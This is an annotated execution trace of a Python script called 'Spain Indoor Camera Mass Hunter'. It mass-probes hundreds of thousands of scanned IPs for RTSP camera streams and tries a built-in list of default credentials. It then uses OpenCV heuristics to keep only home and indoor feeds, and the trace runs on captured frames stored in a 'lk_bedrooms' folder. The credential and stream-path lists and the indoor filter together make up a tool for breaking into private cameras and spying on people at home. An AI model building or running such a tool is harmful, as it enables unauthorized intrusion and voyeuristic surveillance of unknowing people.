
#> input picture vmos_titan/playground/cctv-tool/hunt_frames/frame_178_49_177_166.jpg, 2304 x 1296 px (shown at 1/2 size)
$ python -i spain_indoor_hunt.py   (imports and definitions only)
#> lines starting #> are read from the running program, lines starting #| are printed output that depends on the picture; after the words box and inside, x2 and y2 are one past the last pixel; in counts of white or black regions, pixels touching at a corner belong together
#!/usr/bin/env python3
"""
Spain Indoor Camera Mass Hunter
- Parallel frame grabbing from 470K+ IPs (no YOLO during grab)
- Fast CV-based indoor/outdoor classification post-grab
- Builds interactive selector with only HOME/INDOOR cameras
"""

import os, re, sys, json, time, shutil, subprocess, signal
from concurrent.futures import ThreadPoolExecutor, as_completed
from pathlib import Path
import cv2
import numpy as np

# ── Working directory ──
SCRIPT_DIR = os.path.dirname(os.path.abspath(__file__))
# [1 line not run here, left out]

# ── Config ──
MASSCAN_FILE = os.path.join(SCRIPT_DIR, "spain_masscan.txt")
FRAMES_DIR = os.path.join(SCRIPT_DIR, "spain_indoor_frames")
OUT_DIR = os.path.join(SCRIPT_DIR, "spain_indoor_verify")
IMG_DIR = os.path.join(OUT_DIR, "screenshots")
EXISTING_FRAMES_DIR = os.path.join(SCRIPT_DIR, "spain_frames")  # Previous scan results
MAX_WORKERS = 80          # parallel ffmpeg processes
FFMPEG_TIMEOUT = 4        # seconds per probe
TARGET_INDOOR = 1590      # stop after this many indoor cameras
BATCH_REPORT = 50         # report every N frames

# RTSP URL patterns to try (ordered by likelihood)
RTSP_PATHS = [
    "/Streaming/Channels/101",
    "/Streaming/Channels/1",
    "/h264/ch1/main/av_stream",
    "/stream1",
    "/live/ch00_0",
    "/onvif1",
    "/11",
    "/cam/realmonitor?channel=1&subtype=0",
]

# Default credentials
CREDS = [
    ("admin", "12345"),
    ("admin", ""),
    ("admin", "admin"),
    ("admin", "123456"),
    ("admin", "1111"),
    ("root", "pass"),
    ("root", "1234"),
]

# [3 lines not run here, left out]

# Track already-captured IPs
already_captured = set()
# [5 lines not run here, left out]


# [81 lines left out: functions parse_masscan_ips, grab_frame, not called in this run]


def classify_indoor(filepath):
    """Fast CV-based indoor/outdoor classification. Returns (is_indoor, score, details)."""
#> called with filepath = 'hunt_frames/frame_178_49_177_166.jpg'
    try:
        img = cv2.imread(filepath)
#> img is the input picture: shape (1296, 2304, 3); mean B, G, R 136.2, 137.6, 135.9
        if img is None:
            return False, 0, "unreadable"

        h, w = img.shape[:2]
#> h = 1296; w = 2304
        hsv = cv2.cvtColor(img, cv2.COLOR_BGR2HSV)
#> hsv: shape (1296, 2304, 3); mean H, S, V 68.9, 19.1, 140.2
        gray = cv2.cvtColor(img, cv2.COLOR_BGR2GRAY)

        brightness = np.mean(hsv[:, :, 2])
#> brightness = 140.2
        saturation_mean = np.mean(hsv[:, :, 1])
#> saturation_mean = 19.13

        # Edge density
        edges = cv2.Canny(gray, 50, 150)

#> edges: shape (1296, 2304) (shown at 1/2 size); 9% white in thin lines or dots
        edge_density = np.sum(edges > 0) / (h * w)
#> edge_density = 0.0902

        # Sky detection (top quarter)
        top_q = hsv[:h // 4, :, :]
#> top_q: shape (324, 2304, 3); mean H, S, V 63.9, 32.9, 123.2
        top_bright = np.mean(top_q[:, :, 2])
#> top_bright = 123.2
        top_sat = np.mean(top_q[:, :, 1])
#> top_sat = 32.91

        # Green vegetation
        green_mask = cv2.inRange(hsv, np.array([35, 40, 40]), np.array([85, 255, 255]))

#> green_mask: shape (1296, 2304) (shown at 1/2 size); 1.8% white; 593 white regions (488 under 20 px), largest, box (x1, y1, x2, y2) and area: (0, 0, 118, 240) 10407, (1120, 0, 1296, 176) 9841, (577, 54, 768, 129) 8036
        green_pct = np.sum(green_mask > 0) / (h * w)
#> green_pct = 0.0182

        # Blue sky
        blue_mask = cv2.inRange(hsv, np.array([100, 40, 100]), np.array([130, 255, 255]))

#> blue_mask: shape (1296, 2304) (shown at 1/2 size); 1.1% white; 244 white regions (200 under 20 px), largest, box (x1, y1, x2, y2) and area: (544, 176, 854, 308) 27079, (1151, 0, 1199, 32) 1195, (2256, 1269, 2304, 1296) 705
        blue_pct = np.sum(blue_mask > 0) / (h * w)
#> blue_pct = 0.0112

        # Warm colors (indoor lighting)
        warm_mask = cv2.inRange(hsv, np.array([10, 30, 100]), np.array([30, 200, 255]))

#> warm_mask: shape (1296, 2304) (shown at 1/2 size); 0.92% white; 1994 white regions (1882 under 20 px), largest, box (x1, y1, x2, y2) and area: (1502, 608, 1584, 767) 4258, (1472, 688, 1544, 768) 2584, (1638, 0, 1739, 64) 2021
        warm_pct = np.sum(warm_mask > 0) / (h * w)
#> warm_pct = 0.00917

        # IR / night vision detection (grayscale camera)
        is_ir = saturation_mean < 30
#> is_ir = True

        # Scoring
        indoor_score = 0
        outdoor_score = 0
        tags = []

        if brightness < 140:
            indoor_score += 1.5
            tags.append("dim")
        if edge_density > 0.08:
            indoor_score += 1
            tags.append("complex")
        if warm_pct > 0.05:
            indoor_score += 1
            tags.append("warm-light")
        if is_ir:
            indoor_score += 2
            tags.append("IR-nightvision")

        if top_bright > 200 and top_sat < 60:
            outdoor_score += 2
            tags.append("sky")
        if green_pct > 0.12:
            outdoor_score += 1.5
            tags.append("vegetation")
        if blue_pct > 0.08:
            outdoor_score += 1
            tags.append("blue-sky")
        if brightness > 180:
            outdoor_score += 0.5
            tags.append("bright")

        is_indoor = indoor_score > outdoor_score
        detail = f"in={indoor_score:.1f} out={outdoor_score:.1f} [{','.join(tags)}]"
        return is_indoor, indoor_score, detail

    except Exception as e:
        return False, 0, str(e)


# [282 lines left out: functions build_selector, main, not called in this run]


# [2 lines not run here, left out]

>>> result = classify_indoor('hunt_frames/frame_178_49_177_166.jpg')

$ run again, on vmos_titan/playground/cctv-tool/lk_bedrooms/LK_indoor_103_21_132_144.jpg

#> input picture vmos_titan/playground/cctv-tool/lk_bedrooms/LK_indoor_103_21_132_144.jpg, 2592 x 1944 px (shown at 1/3 size)
#> in classify_indoor, img is the input picture: shape (1944, 2592, 3); mean B, G, R 96.5, 96.5, 94.3
#> hsv: shape (1944, 2592, 3); mean H, S, V 95.9, 58.1, 105.4
#> brightness = 105.4
#> saturation_mean = 58.08
#> in classify_indoor, `edges = cv2.Canny(gray, 50, 150)`:

#> edges: shape (1944, 2592) (shown at 1/3 size); 14.7% white in thin lines or dots
#> edge_density = 0.147
#> top_q: shape (486, 2592, 3); mean H, S, V 84.4, 43.1, 108.9
#> top_bright = 108.9
#> top_sat = 43.12
#> green_mask: shape (1944, 2592); 13.1% white; 2829 white regions (2631 under 20 px), largest, box (x1, y1, x2, y2) and area: (1080, 632, 2353, 1175) 248515, (979, 964, 1632, 1329) 107907, (1392, 315, 2176, 445) 60585
#> green_pct = 0.131
#> blue_mask: shape (1944, 2592); 6.2% white; 2830 white regions (2645 under 20 px), largest, box (x1, y1, x2, y2) and area: (899, 1555, 1521, 1848) 80123, (490, 1457, 956, 1750) 51645, (16, 0, 877, 101) 51374
#> blue_pct = 0.062
#> in classify_indoor, `warm_mask = cv2.inRange(hsv, np.array([10, 30, 100]), np.array([30, 20..`:

#> warm_mask: shape (1944, 2592) (shown at 1/3 size); 0.84% white; 1877 white regions (1673 under 20 px), largest, box (x1, y1, x2, y2) and area: (737, 520, 879, 735) 6336, (630, 751, 767, 831) 3379, (1390, 1025, 1472, 1081) 1359
#> warm_pct = 0.00841
#> is_ir = False

$ run again, on vmos_titan/playground/cctv-tool/lk_bedrooms/LK_indoor_112_135_168_157.jpg

#> input picture vmos_titan/playground/cctv-tool/lk_bedrooms/LK_indoor_112_135_168_157.jpg, 1920 x 1080 px (shown at 1/2 size)
#> in classify_indoor, img is the input picture: shape (1080, 1920, 3); mean B, G, R 102.7, 100.8, 97
#> hsv: shape (1080, 1920, 3); mean H, S, V 68.9, 65.3, 111.9
#> brightness = 111.9
#> saturation_mean = 65.33
#> in classify_indoor, `edges = cv2.Canny(gray, 50, 150)`:

#> edges: shape (1080, 1920) (shown at 1/2 size); 9.8% white in thin lines or dots
#> edge_density = 0.0982
#> top_q: shape (270, 1920, 3); mean H, S, V 93.3, 118.3, 83
#> top_bright = 83.03
#> top_sat = 118.3
#> green_mask: shape (1080, 1920); 11% white; 465 white regions (333 under 20 px), largest, box (x1, y1, x2, y2) and area: (368, 0, 1177, 255) 95318, (1136, 159, 1519, 528) 57621, (16, 64, 214, 288) 23431
#> green_pct = 0.11
#> blue_mask: shape (1080, 1920); 8.8% white; 1448 white regions (1228 under 20 px), largest, box (x1, y1, x2, y2) and area: (1728, 0, 1920, 296) 41746, (1214, 0, 1496, 200) 32717, (0, 705, 350, 1080) 23610
#> blue_pct = 0.0883
#> in classify_indoor, `warm_mask = cv2.inRange(hsv, np.array([10, 30, 100]), np.array([30, 20..`:

#> warm_mask: shape (1080, 1920) (shown at 1/2 size); 7% white; 610 white regions (449 under 20 px), largest, box (x1, y1, x2, y2) and area: (443, 516, 1760, 816) 111371, (30, 603, 255, 891) 2910, (1215, 550, 1321, 592) 1890
#> warm_pct = 0.0702
#> is_ir = False
